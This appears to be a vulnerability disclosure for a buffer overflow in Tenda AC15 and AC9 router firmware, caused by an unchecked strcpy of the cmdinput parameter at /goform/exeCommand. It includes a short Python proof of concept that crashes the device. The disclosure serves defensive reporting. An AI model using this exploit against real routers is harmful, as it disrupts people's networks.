



**Vendor of the products:** Tenda

**Affected Device:** Tenda AC15、AC9

**Version:** AC15 V1.0BR_V15.03.05.18

AC9 V1.0BR_V15.03.05.14

**Firmware Download:** https://www.tenda.com.cn/material/show/2710

https://www.tenda.com.cn/material/show/2650

**Vulnerability Description:** A buffer overflow vulnerability was discovered in Tenda AC15 V1.0BR_V15.03.05.18 and AC9 V1.0BR_V15.03.05.14, triggered by the cmdinput parameter in /goform/exeCommand. Attackers can exploit this vulnerability by crafting malicious packets  to cause the device to crash.


# POC:

```python
import requests
url="http://192.168.0.1/goform/exeCommand"
params ={
'cmdinput':'a'*1000
}
response = requests.get(url,params=params)
```



# Vulnerability Effect:

The vulnerability was successfully triggered, and the device crashed.



# Vulnerability Cause:

In the formexeCommand function, the program first retrieves the value of the "cmdinput" parameter, then directly copies the parameter value into the buffer "s" using the strcpy function without any length  restrictions, resulting in a buffer overflow vulnerability.



 